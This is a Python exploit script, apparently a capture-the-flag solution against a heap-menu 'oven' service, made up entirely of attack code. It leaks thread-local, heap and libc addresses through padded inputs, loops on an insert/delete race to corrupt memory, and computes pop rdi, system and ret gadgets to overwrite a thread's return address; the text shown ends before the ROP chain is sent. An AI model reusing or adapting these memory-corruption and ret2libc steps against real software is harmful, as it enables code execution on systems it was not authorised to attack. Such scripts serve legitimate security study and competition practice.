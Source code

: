 ```python
selectOven(1)

#get address
for i in range(0, 4):
    insertFood(i+1, 0)

deleteFood(4)
insertSpecial(0, b'A'*0x20)
r.recvuntil(b'A'*0x20)
tls_addr = u64(r.recvn(6) + b'\x00'*2)
print(hex(tls_addr))

deleteFood(4)
insertSpecial(0, b'A'*0x28)
r.recvuntil(b'A'*0x28)
heap_addr = u64(r.recvn(6) + b'\x00'*2) - 0x960
print(hex(heap_addr))

for i in range(0, 4):
    deleteFood(1)

#calculate time of ds
#insertFood(1,1)
#r.recvuntil(b'is ready!')
#start_time = time.time()
#r.recvuntil(b'+++++++++++++++++++++++')
#end_time = time.time()
#print(end_time - start_time)


#make race condition
i = 0
while 1:
    i = i+1
    print(f"*{i}*")
    insertFood(1, 1)
    sleep(0.001)
    deleteFood(1)

    insertFood(1, -32 + 7 - 15)
    r.recvuntil(b'added.\n')
    ll = r.recvline()
    print(f"*{ll}")
    if b'empty' in ll:
        break
    deleteFood(1)

print(hex(tls_addr))
print(hex(heap_addr))

#leak libc
insertSpecial(0, b'A'*0x38)
r.recvuntil(b'A'*0x38)
libc_base = u64(r.recvn(6) + b'\x00'*2) - 0x11c5c1
print(hex(libc_base))
pause()

#overwrite RA of oven_thread
for i in range(0, 12):
    insertSpecial(0, b'\x00')
pop_rdi = libc_base + 0x10f75b
system = libc_base + 0x58740
ret = libc_base + 0x2882f
```